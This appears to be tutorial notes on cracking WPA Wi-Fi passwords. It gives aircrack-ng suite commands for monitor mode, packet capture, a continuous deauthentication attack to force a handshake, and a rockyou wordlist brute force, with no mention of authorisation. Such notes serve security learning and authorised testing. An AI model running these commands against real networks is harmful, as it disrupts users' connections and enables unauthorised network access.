 Since WPA is a strong protocol we can't simply hack it, but we can bruteforce it!

### Useful Commands

First we want to turn on the interface in monitor mode, given that the monitor mode is supported by your card, but we have to kill the processes that interfere with the process of turning the interface into monitor mode.

```bash
# Kill the processes that interfere with starting wlan0 in monitor mode
sudo ifconfig wlan0 down
# The following 2 commands might be useful (depending on your wlan interface card)
sudo kill $(pgrep NetworkManager)
sudo kill $(pgrep wpa_supplicant)
# Now put the interface in monitor mode, put the interface up and restart network manager and 
sudo airmon-ng start wlan0
```

To check if the monitor mode is on and working, we can use the following command:

```bash
sudo iwconfig
```

Now we might need to unplug the USB device then plug it back.

Then we run the following command to start capturing packets:

```bash
# Sometimes we might have to use the following command
sudo rfkill unblock wifi; sudo rfkill unblock all
sudo airodump-ng wlan0
# To only display the access point that we want, we can use the following command
sudo airodump-ng wlan0 -d <BSSID>
```

Now we can use the following command to write the captures to a file:

```bash
sudo airodump-ng -w <name of file> -c <channel> --bssid <BSSID> wlan0
```

Next ,we will disconnect a device from a network using deauth packet on another terminal so we can capture a handshake, and to do so we will use the following command:

```bash
sudo aireplay-ng --deauth 0 -a <BSSID> wlan0
# We can find the 4-way handshake with EAPOL packets on wireshark
```

Finally we will start brute forcing by using the following command:

```bash
aircrack-ng <.cap file> -w /usr/share/wordlists/rockyou.txt
```

Note: if we want to go back into managed mode, we can use the following commands:

```bash
sudo airmon-ng stop wlan0
sudo ifconfig wlan0 down
sudo iwconfig wlan0 mode managed 
sudo service NetworkManager restart  
sudo service wpa_supplicant restart
sudo ifconfig wlan0 up
```

Note: you might need to toggle Wi-Fi button from top-right menu. 

In case the network manager gets stuck, use the following commands:

```bash
sudo apt-get install --reinstall network-manager
sudo apt-get install --reinstall wpasupplicant
sudo apt-get install --reinstall isc-dhcp-client
```